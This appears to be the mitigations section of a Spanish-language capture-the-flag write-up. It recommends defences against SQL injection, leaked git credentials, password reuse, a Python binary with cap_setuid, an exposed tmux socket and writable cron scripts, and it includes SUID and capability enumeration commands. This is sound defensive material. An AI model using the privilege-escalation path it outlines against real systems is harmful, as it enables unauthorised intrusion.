
[]()
[]()
[]()
[]()
[]()

```
python --help
```



### Mitigaciones

1.  **Validar y sanear todos los inputs de usuario** (formularios, parámetros GET/POST) con consultas parametrizadas (prepared statements), en vez de concatenar valores directamente en las queries SQL — esto elimina la inyección de raíz, tanto en el login como en `dashboard.php?search=`.
2.  **No almacenar credenciales ni secretos en archivos de configuración versionados**, ni siquiera en archivos "de ejemplo" (`.env.example`). Usar un gestor de secretos (Vault, AWS Secrets Manager, variables de entorno inyectadas en runtime) y revisar el historial completo de git antes de hacer público un repositorio, ya que borrar un archivo no elimina su rastro en commits anteriores.
3.  **Aplicar políticas de contraseñas fuertes y únicas por servicio**, evitando la reutilización (la contraseña filtrada en git funcionaba también para otro usuario del sistema vía `su`).
4.  **Revisar periódicamente binarios con SUID y capabilities asignadas** (`find / -perm -4000`, `getcap -r /`), aplicando el principio de mínimo privilegio: ningún intérprete de propósito general (Python, Perl, etc.) debería tener `cap_setuid` u otras capabilities peligrosas asignadas.
5.  **No exponer sockets de servicios (como tmux) en rutas compartidas con permisos abiertos a usuarios de bajo privilegio.** Cada sesión debería quedar aislada en el socket por-usuario que tmux crea por defecto.
6.  **Restringir permisos de escritura sobre scripts ejecutados por cron/root** y sus directorios padres, evitando que usuarios sin privilegios puedan alterar tareas programadas (aunque en este caso ya estaba bien configurado, es un chequeo que vale la pena mantener).
